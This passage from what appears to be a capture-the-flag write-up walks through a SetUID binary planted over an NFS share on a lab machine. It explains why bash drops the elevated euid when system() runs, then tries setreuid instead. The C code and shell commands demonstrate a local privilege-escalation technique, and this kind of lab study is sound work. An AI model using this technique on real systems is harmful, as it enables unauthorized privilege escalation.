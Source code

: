     int main(void) {
        setuid(1000);
        system("id");
        return 0;
    }
    

This program is compiled and set as SetUID on Jail over NFS:

    
    
    oxdf@hacky$ gcc a.c -o /mnt/nfsshare/a;
    ...[snip]...
    oxdf@hacky$ chmod 4755 /mnt/nfsshare/a
    

As root, I can see this file:

    
    
    [root@localhost nfsshare]# ls -l a 
    -rwsr-xr-x. 1 frank frank 16736 May 30 04:58 a
    

When I run this as nobody, `id` runs as nobody:

    
    
    bash-4.2$ $ ./a
    uid=99(nobody) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
    

The program starts with a `ruid` of 99 (nobody) and an `euid` of 1000 (frank).
When it reaches the `setuid` call, those same values are set.

Then `system` is called, and I would expect to see `uid` of 99, but also an
`euid` of 1000. Why isn’t there one? The issue is that `sh` is symlinked to
`bash` in this distribution:

    
    
    $ ls -l /bin/sh
    lrwxrwxrwx. 1 root root 4 Jun 25  2017 /bin/sh -> bash
    

So `system` calls `/bin/sh sh -c id`, which is effectively `/bin/bash bash -c
id`. When `bash` is called, with no `-p`, then it sees `ruid` of 99 and `euid`
of 1000, and sets `euid` to 99.

### setreuid / system

To test that theory, I’ll try replacing `setuid` with `setreuid`:

    
    
    #define _GNU_SOURCE
    #include <stdlib.h>
    #include <unistd.h>
    
    int main(void) {
        setreuid(1000, 1000);
        system("id");
        return 0;
    }
    